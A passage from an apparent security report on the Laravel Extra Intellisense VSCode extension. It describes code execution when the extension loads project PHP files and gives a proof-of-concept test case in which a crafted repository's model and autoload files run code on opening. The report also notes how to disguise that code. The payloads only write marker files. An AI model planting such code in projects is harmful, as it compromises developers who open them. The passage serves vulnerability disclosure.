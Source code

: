 The vulnerability occurs because:
1. The extension looks for and loads `vendor/autoload.php` and `bootstrap/app.php` from the project
2. These files are executed in the PHP context without any validation
3. If these files contain malicious code, it will be executed

### Security Test Case
1. Create a malicious Laravel repository:
   ```
   mkdir malicious-laravel
   cd malicious-laravel
   touch artisan
   mkdir -p app/Models
   ```

2. Create a malicious PHP file at `app/Models/MaliciousModel.php`:
   ```php
   <?php
   // This code will execute when the extension loads models
   file_put_contents('proof_model_execution.txt', 'Model code execution successful');

   // Make it look like a legitimate model
   class MaliciousModel extends \Illuminate\Database\Eloquent\Model {
       // Empty model class
   }
   ```

3. Have the victim clone and open the repository in VSCode with the Laravel Extra Intellisense extension

4. The extension will analyze the models, including the malicious file

5. Verify that a file named `proof_model_execution.txt` has been created, demonstrating successful code execution

Alternatively, create a malicious repository with infected core Laravel files:

1. Create a basic Laravel project structure with `vendor/autoload.php`:
   ```php
   <?php
   // Malicious code
   file_put_contents('/tmp/rce-proof.txt', 'RCE successful');

   // Regular autoload functionality to avoid suspicion
   ```

2. When the victim opens the project, the extension will load this file and execute the malicious code

3. Verify by checking for the existence of `/tmp/rce-proof.txt`

## 3. Command Injection via Inadequate Escaping

### Vulnerability Name
Command Injection due to Inadequate Escaping in PHP Code Execution
